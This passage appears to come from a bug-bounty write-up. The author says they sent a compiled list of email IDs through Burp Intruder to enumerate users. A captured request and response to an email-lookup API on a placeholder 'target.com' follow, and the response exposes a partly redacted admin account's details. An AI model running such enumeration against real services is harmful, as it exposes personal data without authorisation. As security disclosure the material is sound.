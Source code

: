 I compiled a list of these email IDs and submitted them to Intruder to check the content length. Fortunately, a few of them yielded positive results.

## Verify User

### Request
```http
GET /api/v1/user?email=ba████████@target.com HTTP/2
Host: www.target.com
Cookie: blah...blah...blah...
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.target.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Te: trailers
```

### Response
```http
HTTP/1.1 200 OK 
Date: Wed, 29 Mar 2023 05:59:48 GMT 
X-Powered-By: Express 
Access-Control-Allow-Origin: *
Content-Type: application/json; charset=utf-8 
Content-Length: 370 
ETag: W/"172-rQhbOJIDRtY57xxDgEWDAhUpziE" 
Set-Cookie: ; Path=/; HttpOnly 
X-Frame-Options: SAMEORIGIN 
X-Content-Type-Options: nosniff 
X-XSS-Protection: 1; mode=block 
Referrer-Policy: strict-origin-when-cross-origin 
Connection: close 
Strict-Transport-Security: max-age=31536000; includeSubDomains

{
  "status": true,
  "message": "Successfully Retrieved",
  "result": [
    {
      "UserId": 10██,
      "EmailId": "ba████████@target.com",
      "RegionId": [
        300,
        300
      ],
      "RegionName": "NA",
      "RoleId": 100,
      "RoleName": "Admin",
      "CountryId": 200,
      "CountryName": "United States",
      "Status": "Approved",
      "Name": "Bane Smith",
      "DeliveryCentre": "New York, United States",
      "IsActive": true,
      "SubProcess": "null"
    }
  ]
}
```